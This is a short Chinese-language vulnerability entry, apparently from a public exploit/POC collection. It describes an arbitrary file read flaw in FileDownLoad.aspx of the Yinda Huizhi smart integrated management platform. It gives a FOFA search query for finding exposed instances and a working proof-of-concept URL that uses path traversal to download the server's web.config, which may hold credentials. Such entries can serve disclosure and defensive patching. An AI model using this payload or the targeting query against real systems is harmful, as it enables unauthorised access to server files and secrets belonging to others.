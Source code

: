 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## FOFA

<a-checkbox checked>"汇智信息" && title="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

验证POC

```plain
http://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](../../../.vuepress/public/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)